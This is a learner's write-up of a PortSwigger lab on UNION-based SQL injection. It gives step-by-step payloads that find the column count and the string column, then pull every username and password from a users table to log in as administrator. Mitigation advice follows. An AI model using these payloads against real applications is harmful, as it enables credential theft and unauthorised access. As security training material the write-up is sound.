

# SQL Injection - UNION Attack: Retrieve Multiple Values in a Single Column

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Gifts HTTP/2
```

### 2. Modified the Request to Determine Column Count

```sql
' UNION SELECT NULL NULL--
```
Response: HTTP/2 200 OK

### 3. Identified Column Accepting String Output

```sql
' UNION SELECT 'a',NULL--
```
Response: HTTP/2 500 Internal Server

```sql
' UNION SELECT NULL,'a'--
```
Response: HTTP/2 200 OK

### 4. Retrieved Data from Users Table

```sql
' UNION SELECT NULL,username||'~'||password FROM users--
```


This retrieved all usernames and passwords including the administrator.

### 5. Retrieved Data from Users Table

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how to retrieve multiple values in a single column using UNION-based SQL injection.

---

## Notes

